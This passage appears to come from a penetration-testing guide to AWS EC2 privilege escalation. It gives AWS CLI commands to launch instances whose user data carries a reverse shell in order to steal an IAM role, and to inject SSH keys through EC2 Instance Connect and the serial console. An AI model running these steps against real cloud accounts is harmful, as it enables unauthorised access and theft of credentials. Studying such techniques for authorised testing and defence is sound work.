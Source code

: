 An attacker with the permissions **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** can **create a Launch Configuration** with an **IAM Role** and a **rev shell** inside the **user data**, then **create an autoscaling group** from that config and wait for the rev shell to **steal the IAM Role**.

```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
   --launch-configuration-name bad_config \
   --image-id ami-0c1bc246476a5572b \
   --instance-type t3.micro \
   --iam-instance-profile EC2-CloudWatch-Agent-Role \
   --user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
   --auto-scaling-group-name bad_auto \
   --min-size 1 --max-size 1 \
   --launch-configuration-name bad_config \
   --desired-capacity 1 \
   --vpc-zone-identifier "subnet-e282f9b8"
```

**Potential Impact:** Direct privesc to a different EC2 role.

### `!autoscaling`

The set of permissions **`ec2:CreateLaunchTemplate`** and **`autoscaling:CreateAutoScalingGroup`** **aren't enough to escalate** privileges to an IAM role because in order to attach the role specified in the Launch Configuration or in the Launch Template **you need to permissions `iam:PassRole`and `ec2:RunInstances`** (which is a known privesc).

### `ec2-instance-connect:SendSSHPublicKey`

An attacker with the permission **`ec2-instance-connect:SendSSHPublicKey`** can add an ssh key to a user and use it to access it (if he has ssh access to the instance) or to escalate privileges.

```bash
aws ec2-instance-connect send-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --instance-os-user "ec2-user" \
   --ssh-public-key "file://$PUBK_PATH"
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances.

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

An attacker with the permission **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** can **add an ssh key to a serial connection**. If the serial is not enable, the attacker needs the permission **`ec2:EnableSerialConsoleAccess` to enable it**.

In order to connect to the serial port you also **need to know the username and password of a user** inside the machine.

```bash
aws ec2 enable-serial-console-access

aws ec2-instance-connect send-serial-console-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --serial-port 0 \
   --region "eu-west-1" \
   --ssh-public-key "file://$PUBK_PATH"

ssh -i /tmp/priv $INSTANCE_ID.port0@serial-console.ec2-instance-connect.eu-west-1.aws
```

